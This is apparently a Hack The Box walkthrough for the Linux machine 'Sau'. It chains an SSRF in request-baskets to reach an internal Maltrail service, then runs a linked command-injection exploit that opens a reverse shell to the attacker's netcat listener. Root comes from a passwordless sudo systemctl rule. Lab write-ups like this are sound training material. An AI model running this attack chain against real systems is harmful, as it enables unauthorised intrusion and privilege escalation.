 # Sau

Linux · Easy

## Enumeration

Nmap Scan

```
nmap -sVC -p- 10.10.11.224 > sau.xml
```
![image](https://github.com/vsang181/Hackthebox/assets/28651683/c86f0873-5851-449b-9e95-a95ad9fc06a4)

Upon scanning, the following ports are identified:

- 22: SSH
- 80: Filtered
- 8338: Filtered
- 55555: Open TCP

A web page is detected on port 55555.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/f0e1b86b-7769-492a-93ab-b83b391577fc)

The webpage is powered by "request-baskets v1.2.1."

![image](https://github.com/vsang181/Hackthebox/assets/28651683/eb37339e-cf78-40b4-9ddb-15991b86ef1e)

A Google search reveals potential vulnerabilities for this version.

[request-baskets SSRF](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

The system indicates that an SSRF (Server Side Request Forgery) vulnerability is present in this version. We can verify this by first creating a basket and then accessing its settings, which allow us to redirect any request made to the webpage.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/9cdf3a86-2990-424b-9608-8329ab54ec84)

Let's attempt to redirect our requests to port 80 on the IP, a port that appears to be accessible only internally.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/9a7f6e87-8871-43c3-8b42-358f24f429ee)

After conducting a quick Google search, we discovered that the "Mailtrail" version in use is vulnerable to "Unauthenticated OS Command Injection (RCE)." Moreover, an exploit for this vulnerability was found.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/5e2af3af-68c8-4fb2-a84c-691a8febf4fc)

[Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

## Exlpoitation

First, let's modify the redirection:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2ef4fc42-de20-4cb9-bde7-ddded379818c)

Next, execute the exploit with a netcat listener running in the background.

```
python3 eploit.py 10.10.14.189 1234 http://10.10.11.224:55555/vh3itq8
```
This grants us a system shell under the username "puma."

![image](https://github.com/vsang181/Hackthebox/assets/28651683/77c45748-552e-46ec-baac-0501970760ba)

## Privilege Escalation

Executing the `sudo -l` command shows that the user 'puma' can run `/usr/bin/systemctl status trail.service` as root without requiring a password.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/975518eb-7ba0-4a77-8ca7-8e83306cbaaf)

First, let's elevate our shell using the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Next, run the command (which can be executed as root without a password). 

We found the following link for our reference.

[systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Using the subsequent method, we gain access to a root terminal.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/46072be4-76ba-45fe-92ce-7a196e9893ba)

This provides us with the root flag.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/14bbf2d0-b339-4e57-b6fb-ab5da907c2a7)

